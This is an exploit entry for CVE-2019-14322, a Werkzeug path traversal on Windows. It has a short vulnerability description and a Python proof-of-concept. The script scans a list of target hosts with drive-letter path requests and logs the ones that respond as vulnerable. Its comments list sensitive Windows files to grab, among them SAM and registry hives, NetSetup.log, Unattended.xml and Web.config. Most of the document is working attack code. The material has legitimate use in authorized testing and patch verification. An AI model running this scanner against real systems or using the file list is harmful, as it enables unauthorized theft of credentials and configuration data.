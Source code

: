     # Exploit Title: Pallets Werkzeug 0.15.4 - Path Traversal
    # Date: 06 July 2021
    # Original Author: Emre ÖVÜNÇ
    # Exploit Author: faisalfs10x (https://github.com/faisalfs10x)
    # Vendor Homepage: https://palletsprojects.com/
    # Software Link: https://github.com/pallets/werkzeug
    # Version: Prior to 0.15.5
    # Tested on: Windows Server
    # CVE: 2019-14322
    # Credit: Emre Övünç and Olivier Dony for responsibly reporting the issue
    # CVE Link: https://nvd.nist.gov/vuln/detail/CVE-2019-14322
    # Reference : https://palletsprojects.com/blog/werkzeug-0-15-5-released/

    Description : Prior to 0.15.5, it was possible for a third party to potentially access arbitrary files when the application used SharedDataMiddleware on Windows. Due to the way Python's os.path.join() function works on Windows, a path segment with a drive name will change the drive of the final path. TLDR; In Pallets Werkzeug before 0.15.5, SharedDataMiddleware mishandles drive names (such as C:) in Windows pathnames lead to arbitrary file download.

    #!/usr/bin/env python3
    # PoC code by @faisalfs10x [https://github.com/faisalfs10x]

    """ $ pip3 install colorama==0.3.3, argparse, requests, urllib3
        $ python3 CVE-2019-14322.py -l list_target.txt"
    """
    import argparse
    import urllib3
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    import requests
    from colorama import Fore, Back, Style, init

    # Colors
    red = '\033[91m'
    green = '\033[92m'
    white = '\033[97m'
    yellow = '\033[93m'
    bold = '\033[1m'
    end = '\033[0m'

    init(autoreset=True)

    def banner_motd():
        print(Fore.CYAN +Style.BRIGHT +"""

            CVE-2019-14322 %sPoC by faisalfs10x%s - (%s-%s)%s %s
    """ % (bold, red, white, yellow, white, end))

    banner_motd()

    # list of sensitive files to grab in windows

    # %windir%\repair\sam
    # %windir%\System32\config\RegBack\SAM
    # %windir%\repair\system
    # %windir%\repair\software
    # %windir%\repair\security
    # %windir%\debug\NetSetup.log (AD domain name, DC name, internal IP, DA account)
    # %windir%\iis6.log (5,6 or 7)
    # %windir%\system32\logfiles\httperr\httperr1.log
    # C:\sysprep.inf
    # C:\sysprep\sysprep.inf
    # C:\sysprep\sysprep.xml
    # %windir%\Panther\Unattended.xml
    # C:\inetpub\wwwroot\Web.config
    # %windir%\system32\config\AppEvent.Evt (Application log)
    # %windir%\system32\config\SecEvent.Evt (Security log)
    # %windir%\system32\config\default.sav
    # %windir%\system32\config\security.sav
    # %windir%\system32\config\software.sav
    # %windir%\system32\config\system.sav
    # %windir%\system32\inetsrv\config\applicationHost.config
    # %windir%\system32\inetsrv\config\schema\ASPNET_schema.xml
    # %windir%\System32\drivers\etc\hosts (dns entries)
    # %windir%\System32\drivers\etc\networks (network settings)
    # %windir%\system32\config\SAM
    # TLDR:
    # C:/windows/system32/inetsrv/config/schema/ASPNET_schema.xml
    # C:/windows/system32/inetsrv/config/applicationHost.config
    # C:/windows/system32/logfiles/httperr/httperr1.log
    # C:/windows/debug/NetSetup.log - (may contain AD domain name, DC name, internal IP, DA account)
    # C:/windows/system32/drivers/etc/hosts - (dns entries)
    # C:/windows/system32/drivers/etc/networks - (network settings)

    def check(url):

        # There are 3 endpoints to be tested by default, but to avoid noisy, just pick one :)
        for endpoint in [
                'https://{}/base_import/static/c:/windows/win.ini',
                #'https://{}/web/static/c:/windows/win.ini',
                #'https://{}/base/static/c:/windows/win.ini'
                ]:
            try:

                url2 = endpoint.format(url)
                resp = requests.get(url2, verify=False, timeout=5)

                if 'fonts' and 'files' and 'extensions' in resp.text:
                    print(Fore.LIGHTGREEN_EX +Style.BRIGHT +" [+] " +url2+ " : vulnerable====[+]")
                    with open('CVE-2019-14322_result.txt', 'a+') as output:
                        output.write('{}\n'.format(url2))
                        output.close()

                else:
                    print(" [-] " +url+ " : not vulnerable")

            except KeyboardInterrupt:
                exit('User aborted!')
            except:
                print(" [-] " +url+ " : not vulnerable")


    def main(args):

        f = open(listfile, "r")
        for w in f:
            url = w.strip()

            check(url)

    if __name__ == '__main__':

        try:

            parser = argparse.ArgumentParser(description='CVE-2019-14322')
            parser.add_argument("-l","--targetlist",required=True, help = "target list in file")
            args = parser.parse_args()
            listfile = args.targetlist

            main(args)

        except KeyboardInterrupt:
            exit('User aborted!')
